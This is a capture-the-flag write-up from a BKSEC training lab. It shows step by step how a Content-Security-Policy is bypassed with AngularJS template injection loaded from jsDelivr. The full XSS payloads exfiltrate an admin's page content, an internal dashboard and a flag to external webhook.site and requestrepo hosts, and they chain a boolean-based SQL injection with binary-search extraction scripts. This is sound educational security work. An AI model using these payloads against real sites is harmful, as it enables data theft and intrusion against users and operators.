





# Report the violations 2 (BKSEC Training)
---
## Overview
Continue with part 2, as per description, the site has been updated with one more article having the same comment function, also with a site `/changelog` to show modifications recently and in the future.

## Functionality analysis

The second page is almost the same as the other. However, when I tried submiting XSS payload, headers **Content-Security-Policy** have been set.



**Content-Security-Polity**:
- default-src 'none'
> Set source of resources to none (which means do not load any resource from anywhere if not being specified)
- style-src 'self'
> Set allowed CSS to run is from itself (same origin)
- ***img-src 'self'***
> Set source of image can be loaded is from itself (same origin = scheme + host + port)
- frame-src 'none'
> Same, forbid loading frame from anywhere
- base-uri 'none'
> Restrict origin allowed to be used in 'base' tag, in this case is none
- ***connect-src 'self'***
> Only permit fetch/XMLHttpRequest/AJAX call to the same origin
- ***script-src https://cdn.jsdelivr.net/ 'unsafe-eval'***
> Allowed script belonging to the url to be executed with eval() functionality

The comment part and report are the same as the previous version but report will remove all comments for safety as suggested.


This time, the message part is restricted to 200-char only while the name part is not.

At the `/changelog`: the author also specifies that one more post has been created along with security update.

In previous version, there were almost no measures against XSS, now there is anti-bot crawling mechanism, remove ineffective filter and remove admin cookie (then can't read flag from this, must seek somewhere else)

It also declares there exists security dashboard for local computer which only display first 5 rows.

Upon reporting to admin, the admin only spends 5 seconds on the reported comment.



## Vulnerability analysis

As CSP allows script from *https://www.jsdelivr.com/*, which is a repo of many js libraries. Some of them can still be exploited, especially **AngularJS**. If we are able to import that lib, we can execute our code with eval() (which considers "string" inside {{}} to be script and run it as code).

Since 'connect-src' and 'img-src' are set to self, then we can only send requests to the same domain.
Can't use fetch or \ to leak data out. However, there is one way to bypass this is to open a new tab with top-level-domain navigation which is not included in **connect** or **img** part.

Now let's check if we can execute code upon admin visits our comment. Since admin cookie is not set anymore, I'll read HTML content where admin visits and send it to my listener.

```javascript
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script>
<div ng-app>
    {{constructor.constructor("var f=document.createElement('form'); f.action='https://webhook.site/fd710372-1775-4a27-b9f3-83478bde10e4/'; f.method='POST'; var i=document.createElement('input'); i.name='page_content'; i.value=btoa(unescape(encodeURIComponent(document.documentElement.innerHTML))); f.appendChild(i); document.body.appendChild(f); f.submit();")()}}
</div>
```

Send above payload in the name part (since messages' length is restricted) and get this request:


The **HeadlessChrome** and page_content posted to my listener confirm that the payload does work.

This confirms that we can exploit the server this way to read flag.

### **Vulnerabilities**:
- ***Vul 1***: Dev didn't config tightly the CSP headers though forbid loading image and request to external sites. **window.location** in `Maps-to` and **form-submit** can still be abused to exfiltrate the data out.
- ***Vul 2***: Over-trust imported libraries from 
*https://www.jsdelivr.com/*. Dev should specify which secure lib can be import.
- ***Vul 3***: Lack of proper XSS validation/filter.


## Exploitation

Since `/changelog` declares to have security dashboard, I recon at `/robots.txt` and got this:



Use this payload which fetches to the dashboard as admin visits comments, reads response and sends to my listener. This works because admin origin is from internal, then admin has access to local computer.

```javascript
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script>
<div ng-app>
    {{
        constructor.constructor("
            fetch('/secret-security-dashboard')
                .then(r => r.text())
                .then(t => {
                    window.location = 'https://webhook.site/fd710372-1775-4a27-b9f3-83478bde10e4/?data=' + 
                    encodeURIComponent(btoa(unescape(encodeURIComponent(t))));
                })
        ")()
    }}
</div>
```

For this payload, I'd like to explain a bit on `encodeURIComponent(btoa(unescape(encodeURIComponent(t))))` (LearnOnAI =))))))

Break-down:
- `encodeURIComponent`: t inside can be Vietnamese chars or emoji, while base64 only encodes Latin chars, then **encodeURIComponent** encodes these contents into safe chars like **%E1%BA%A3**
- `unescape`: converts safe chars above into Latin-form bytes
- `btoa`: base64 encodes (still contains `+` and `\` `=` signs)
- `encodeURIComponent`: since the URL-mechanism regards `+` as space, `=` as separator of query and value, this function will convert these signs again into safe form.

> Combination of them preserves the data exfiltration intactly.


Decode the base64 data and get this page:



which has a form post to `/check-solve` with **id** to see if the reported comments have been reviewed.

```HTML
<form class="m-10" action="/check-resolve" method="post">
    <div class="form-group">
        <label for="numberInput">Check Resolve Case</label>
        <input type="id" class="form-control" id="numberInput" name="id" required>
    </div>
    <button type="submit" class="btn btn-primary">Check</button>
</form>
```
Submit this comment and report to get the result.

```javascript
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script><div ng-app>
  {{ constructor.constructor("
    var payload = 'id=1';
    fetch('/check-resolve', {
      method: 'POST',	
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body: payload
    })
    .then(res => res.text())
    .then(data => {
        window.location = 'https://webhook.site/fd710372-1775-4a27-b9f3-83478bde10e4?leak=' + btoa(encodeURIComponent(data));
    })
  ")() }}</div>
```

Send `id = 1` got **Done**


Send `id = 6` got **Not yet**


This time, it looks like Boolean-based SQL injection with True/False is **Done** and False/True is **Not yet**

Replace payload variable in the above payload by `id=-1 UNION SELECT table_name FROM information_schema.tables`




This indicates that the database is `sqlite`.

Count the number of tables:

```javascript
[copy above payload ]

    var payload = 'id=-1 UNION SELECT \\'Done\\' WHERE ((SELECT COUNT(tbl_name) FROM sqlite_master WHERE type=\\'table\\' AND tbl_name NOT LIKE \\'sqlite_%\\') = 1 ) -- -';

[copy above payload ]
```

The decoded reponse return "done" which means there only exists one table. Then we have to find the current table name. The problem is which id is the flag at. I reckon it is at special id, 0 or 6. I sent id = 0, server returned `{"Error":"Not found case"}`. Then the flag is at column `content` (I guess so), row `id = 6`.

Payload to get length of table name which is 8-char in length

```javascript
[copy above payload ]

    var payload = 'id=-1 UNION SELECT \\'Done\\' WHERE ((SELECT LENGTH(tbl_name) FROM sqlite_master WHERE type=\\'table\\' AND tbl_name NOT LIKE \\'sqlite_%\\') = 8 ) -- -';

[copy above payload ]
```

Payload brute-force table name using binary-search algorithm for better performance since admin only spends 5 seconds.

```javascript
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script>
<div ng-app>
{{ constructor.constructor("

(async function(){

    let result = '';
    let maxLen = 8;

    async function check(pos, mid){

        var payload = 'id=-1 UNION SELECT \\'Done\\' WHERE ' +
        '(SELECT unicode(substr(tbl_name,' + pos + ',1)) FROM sqlite_master ' +
        'WHERE type=\\'table\\' AND tbl_name NOT LIKE \\'sqlite_%\\') > ' + mid;

        let res = await fetch('/check-resolve', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded',
            },
            body: payload
        });

        let text = await res.text();
        return text.includes('Done');
    }

    for(let pos = 1; pos <= maxLen; pos++){

        let low = 97;
        let high = 122;

        while(low <= high){
            let mid = Math.floor((low + high) / 2);

            if(await check(pos, mid)){
                low = mid + 1;
            } else {
                high = mid - 1;
            }
        }

        result += String.fromCharCode(low);
    }

    window.location = 'http://3f3bnhml.requestrepo.com?leak=' + btoa(result);

})()

")() }}
</div>
```

Decode the leaked data got `security`, next find the length of flag and it's 48.

```javascript
[copy above payload (not the brute-force one)]

    var payload = 'id=-1 UNION SELECT \\'Done\\' WHERE ((SELECT LENGTH(content) FROM security WHERE id = 6) = 48 ) -- -';

[copy above payload (not the brute-force one)]
```

Then just brute-force the flag:

```javascript
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.2/angular.min.js"></script>
<div ng-app>
{{ constructor.constructor("

(async function(){

    let charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
    let result = 'BKSEC{';
    let maxLen = 47;

    async function check(pos, mid){

        var payload = 'id=-1 UNION SELECT \\'Done\\' WHERE ' +
        '(SELECT instr(\\'' + charset + '\\', substr(content,' + pos + ',1)) FROM security WHERE id=6) > ' + mid;

        let res = await fetch('/check-resolve', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded',
            },
            body: payload
        });

        let text = await res.text();
        return text.includes('Done');
    }

    for(let pos = 7; pos <= maxLen; pos++){

        let low = 1;
        let high = charset.length;

        while(low <= high){
            let mid = Math.floor((low + high) / 2);

            if(await check(pos, mid)){
                low = mid + 1;
            } else {
                high = mid - 1;
            }
        }

        result += charset[low-1];
    }

    result += '}';

    window.location = 'https://webhook.site/517f8e45-1854-413f-854d-737efbf02c2a?flag=' + btoa(result);

})()

")() }}
</div>
```

Gotchaaa first blood for Lunar New Year 2026 kkkk!!


> ***BKSEC{I_th1nk_th4t_l0c4lhost_1s_s4f3_8MF3qVKpOf}***